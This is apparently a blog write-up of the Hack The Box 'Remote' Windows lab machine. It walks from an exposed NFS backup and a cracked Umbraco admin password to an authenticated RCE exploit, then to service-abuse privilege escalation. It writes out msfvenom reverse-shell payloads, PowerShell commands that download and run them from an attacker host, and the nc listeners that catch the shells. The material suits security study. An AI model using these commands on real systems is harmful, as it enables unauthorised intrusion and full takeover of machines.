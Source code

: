 ```yaml
---
title: Remote
date: 2020-07-05
hero: /images/content/posts/hack-the-box/remote.png
categories:
- hack-the-box
tags:
- windows
- privilege
- umbraco
- cms
- rpc
---
```


Remote was a very cool windows box that required us to discover a vulnerability in their CMS, after discovering an exposed file system that contained a backup. Once on the machine we can find out that there are some misconfigured privileges. We can then abuse those permission with PowerUp.ps1 for Windows.

## Tools

* nmap
* python3
* rpcbind
* mount
* winPEAS

## Recon

```bash
export IP=10.10.10.180
```

First things first, we need to do a `nmap` scan with the command `nmap -sS -sV -oA nmap/remote $IP`. Here are my results.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-05 01:28 EDT
Nmap scan report for 10.10.10.180
Host is up (0.056s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
111/tcp  open  rpcbind       2-4 (RPC #100000)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.97 seconds
```

Looks like there is a website being hosted on this box, so let's check that out. After poking around the website I found a login page that was linked to on the contact page.

Login Page:
  - http://10.10.10.180/umbraco/#/login/false?returnPath=%252Fforms
  - http://10.10.10.180/install

This link also tells us something about the website. They are using `umbraco` for their CMS. If we could find the version number maybe there is some sort of exploit.

After poking around the source of the login page, nothing stood out to me off the bat, so I am going to try and fuzz some directories. I am using `ffuf` to discover directories. I used the command `ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .txt,.php,.html,.json,.xml`. Interesting enough there is a directory called `install` that redirects you to the login page.

Let's try to enumerate the `/umbraco/` directory to see if we find anything interesting.

The only thing I found that I could see was a path to `/umbraco/application` after investigating this there doesn't seem like much. I am going to try and research some of the other services running on the machine to maybe poke around in.

I am going to try scanning the `rpcbind` service with the command `nmap -sV --script=nfs-showmount 10.10.10.180` maybe there is some sort of file system that we can mount and view. Looks like there is a discoverable file system called `/site_backups`. Hmm this is interesting, maybe we can find credentials on that. Let's figure out how to access it. Okay so to mount the file system I used the command `sudo mount -t nfs 10.10.10.180:/site_backups /mnt`. Now we can see the contents of `/site_backups` in our `/mnt` folder. Let's do some exploring. After looking around it looks like this is a backup of the CMS `umbraco` so I did some googling and it looks like all the credentials are located in a database, so let's see if that was backed up or not. After some more searching I found [this](https://our.umbraco.com/forum/umbraco-7/using-umbraco-7/74780-how-do-i-check-what-db-umbraco-is-using) fourm post about the database location being in `Umbraco/AppData/umbraco.sdf`. So I used the command `find /mnt | grep -i '.sdf'` and found the file. When I try and `cat` it out it is a mess and since some of the data is binary I cannot `grep` it, but I can use the command `strings /mnt/App_Data/umbraco.sdf` to see just the ascii readable characters. Then I `grep` for 'admin' and noticed some hashes at the top. I went to `crackstation` and it turns out that the admin password is `baconandcheese`. If we try an login with the credentials `admin@htb.local::baconandcheese` we can get into the admin page.

```
Credentials:
  - Umbraco Admin
    admin@htb.local::baconandcheese
```

## User

I poked around the admin panel for a little bit I didn't find anything too interesting to me, but I did find out that this host is running `Umbraco version 7.12.4`, and it turns out there is an authenticated remote code execution exploit for this very version! What a coincidence! [Here](https://github.com/noraj/Umbraco-RCE) is the code now we just need to craft a reverse shell for the windows machine. I used the command `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f exe > reverse.exe` to create a reverse shell payload. Now we just need to get it on the target machine. We can start a server on our own machine using the command `python3 -c http.server`. Now we are hosting a server that our payload is on. When I use the command `python3 exploit.py -u 'admin@htb.local' -p 'baconandcheese' -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command curl -UseBasicParsing -o C:\Users\Public\Documents\reverse.exe http://10.10.14.5:8000/Umbraco-RCE/reverse.exe'` I am getting a 200 code on my simple server, suggesting that the file has been downloaded, or at least accessed. We can check if we use the command `python3 exploit.py -u 'admin@htb.local' -p 'baconandcheese' -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command Get-ChildItem -Path C:\ -Filter reverse.exe -Recurse -ErrorAction SilentlyContinue -Force'`. This command will find the file on the system and should return the file and it's read/write permissions.

Now that we have our payload uploaded to the server we can start a listener on our machine using the command `nc -lvnp 1337` and run the command `python3 exploit.py -u 'admin@htb.local' -p 'baconandcheese' -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command C:\Users\Public\Documents\reverse.exe'` to run the reverse shell on the machine. If we take a look at our listener we should see the shell pop up. If we take a look around we can find `user.txt` at the path `C:\Users\Public\user.txt`. You can read the file with the `type` command.

## Root

Time to look for some avenues for privilege escalation. The first thing I ran is `whoami /priv` and got the following.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled *
SeImpersonatePrivilege        Impersonate a client after authentication Enabled *
SeCreateGlobalPrivilege       Create global objects                     Enabled *
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I put stars near the permissions that stood out to me. The most interesting thing to me is `SeImpersonatePrivilege`. This sounds like I should be able to impersonate the `ns authority` user.

I did a `winPEAS` scan. Getting it to work on the machine was kinda tricky because something was wrong with the version I had. Anyways I got the binary from [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases/winPEASany.exe). Then I spawned a simple server on my machine and used the command `curl -o winPEASany.exe http://10.10.14.5:8000/winPEASany.exe`. Then I ran the program.

Okay so now I am running another check. I am using `PowerUp.ps1` to check the system. This was a bit hard to get working, but I found a good tutorial [here](https://recipeforroot.com/advanced-powerup-ps1-usage/). Make sure you follow it step by step, and I got it on the server in the usual way by using a simple python server. After running it it looks like the `UsoSvc` service is vulnerable, maybe I can craft another reverse shell payload and execute it as `ns authority`.

Okay here is how I did it, After discovering the `UsoSvc` I continued to read the `PowerUp` article and read that you can execute commands as a privileged user. For our instance we use the command `Invoke-ServiceAbuse -Name 'UsoSvc' -Command "[command_here]"`. If we upload another reverse shell to the server on another port then we can spawn a reverse shell as `ns authority`. I used the following command to craft a payload `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f exe > root_reverse.exe` then to get it on the server I created another simple server. Then open up a listener on port 1234. After the file is on the server run the shell using `Invoke-ServiceAbuse -Name 'UsoSvc' -Command "C:\Users\Public
oot_reverse.exe"`. Then we can catch the shell and we are `ns authority`! The flag can be found on the admin's desktop. This was a pretty hard box for me. I am not that familiar with windows services, but I am glad I took on the challenge.
